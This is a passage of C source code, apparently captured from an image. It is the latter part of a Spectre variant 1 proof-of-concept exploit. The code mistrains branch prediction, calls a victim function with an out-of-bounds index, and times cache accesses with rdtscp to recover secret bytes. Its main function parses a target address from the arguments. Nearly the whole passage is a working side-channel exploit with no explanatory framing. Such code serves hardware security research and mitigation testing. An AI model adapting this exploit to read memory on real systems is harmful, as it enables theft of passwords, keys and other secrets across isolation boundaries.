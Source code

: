 ```c
            x = (x | (x >> 16));
            /*
             * if x == 0, x = training_x & 0x0
             *              = training_x
             * if x == -1, x = training_x ^ (malicious_x ^ training_x)
             *               = malicious_x
             */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }

        /* Time reads. Mixed-up order to prevent stride prediction */
        for (i = 0; i < 256; i++) {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk);
            junk = *addr;                    /* Time memory access */
            time2 = __rdtscp(&junk) - time1; /* Compute elapsed time */
            if (time2 <= CACHE_HIT_THRESHOLD &&
                mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit -> score +1 for this value */
        }

        /* Locate highest & second-highest results */
        j = k = -1;
        for (i = 0; i < 256; i++) {
            if (j < 0 || results[i] >= results[j]) {
                k = j;
                j = i;
            } else if (k < 0 || results[i] >= results[k]) {
                k = i;
            }
        }

        /* Success if best is >= 2 * runner-up + 5 or 2/0 */
        if (results[j] >= (2 * results[k] + 5) ||
            (results[j] == 2 && results[k] == 0))
            break;
    }
    /* use junk to prevent code from being optimized out */
    results[0] ^= junk;
    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int main(int argc, const char **argv) {
    size_t malicious_x =
        (size_t)(secret - (char *)array1); /* default for malicious_x */
    int i, score[2], len = 40;
    uint8_t value[2];
    char *buf, c;

    for (i = 0; i < sizeof(array2); i++)
        array2[i] = 1; /* write to array2 to ensure it is memory backed */
    if (argc == 3) {
        sscanf(argv[1], "%p", (void **)(&malicious_x));
        malicious_x -= (size_t)array1; /* input value to pointer */
        scanf(argv[2], "%d", &len);
    }
```